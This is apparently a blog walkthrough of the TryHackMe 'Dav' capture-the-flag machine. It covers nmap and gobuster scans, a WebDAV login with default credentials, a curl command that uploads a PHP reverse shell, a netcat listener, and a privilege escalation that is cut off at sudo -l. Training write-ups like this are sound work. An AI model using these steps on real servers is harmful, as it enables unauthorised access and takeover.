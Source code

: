 ```yaml
---
title: TryHackMe - Dav
author: Bonface
date: 2024-02-01 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - nmap
  - privesc
  - http
  - gobuster
  - crack
  - SUID
image:
  path: /assets/img/try%20hack%20me%20/Easy/Dav/0.jpeg
  alt: Dav
---
```


# Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

![](../assets/img/try_hack_me/Easy/Dav/1.png))

### gobuster
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

![](../assets/img/try_hack_me/Easy/Dav/2.png))

We get this directory known as `/weddav`  
![](../assets/img/try_hack_me/Easy/Dav/3.png))

Here i need a username and password.  
Did some research and got this default credentials.  
![](../assets/img/try_hack_me/Easy/Dav/4.png))

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  
![](../assets/img/try_hack_me/Easy/Dav/5.png))

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`
Cracked the hash but got nothing much.  

I searched for web-dav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  

I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
![](../assets/img/try_hack_me/Easy/Dav/6.png))

Run nc cat on my machine then run the code.  
Got the shell and stabilized it.  
![](../assets/img/try_hack_me/Easy/Dav/7.png))  


Now it's just a matter of looking for the `user.txt `   
![](../assets/img/try_hack_me/Easy/Dav/8.png))

# Privilege Escalation
For this i always first run  
- `sudo -l`
- cat `/etc/crontab`

## sudo -l
![](../assets/img/try_hack_me/Easy/Dav/9.png))  
This was simple since the user can read any file with `sudo` without a password.  